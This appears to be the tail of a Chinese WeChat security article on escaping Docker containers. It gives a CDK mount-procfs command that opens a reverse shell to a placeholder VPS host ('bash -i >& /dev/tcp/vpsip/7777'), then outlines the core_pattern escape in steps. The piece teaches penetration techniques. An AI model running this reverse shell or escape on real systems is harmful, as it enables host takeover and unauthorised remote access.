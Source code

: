 首先是我们利用的一行命令：./cdk_linux_amd64 run mount-procfs /host_proc "bash -i >&
/dev/tcp/vpsip/7777 0>&1"

可以看到使用的是mount-procfs模块如下：

![]()获取其在宿主机里的绝对路径的函数：![]()导致进程崩溃的函数：![]()导致崩溃的原因：空指针赋值不会崩溃，输出空指针会导致崩溃。这儿只需要让其产生段错误，也就是对空指针赋值就会出现段错误。  

拼接workdir,并且写入core_pattern中，并以管道符|开头的路径:![]()运行段错误程序：![]()简单总结一下编写这个procfs逃逸脚本的思路：  

1.在容器中先获取容器中的路径在宿主机中的绝对路径：  

cat /proc/self/mounts获取到workdir  

2.然后是书写会导致系统出现段错误的代码：给空指针赋值  

3.将反弹shell的命令写入一个文件并拼接上第一步获取的workdir。  

4.将这个恶意的绝对路径的文件前面拼接上管道符|然后送入 /proc/sys/kernel/core_pattern文件中。  

5.运行那段导致系统出现段错误的程序，这个时候负责进程崩溃的core_pattern就执行了管道符|后面我们的在宿主机绝对路径下的恶意反弹shell的文件。

  
0x06收尾  

总结一下，打入docker不要怕，先挨个儿检测一下，这个不行那个不行，嗨~，建议换个外网入口点。

参考文章：

https://zone.huoxian.cn/d/990/2

https://zhuanlan.zhihu.com/p/473178565

https://www.kingkk.com/2021/01/%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4%E7%9A%84%E5%AE%B9%E5%99%A8%E9%80%83%E9%80%B8/

 **END  
** **监制：船长、铁子    策划：AST   文案：Cupid   美工：青柠**

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

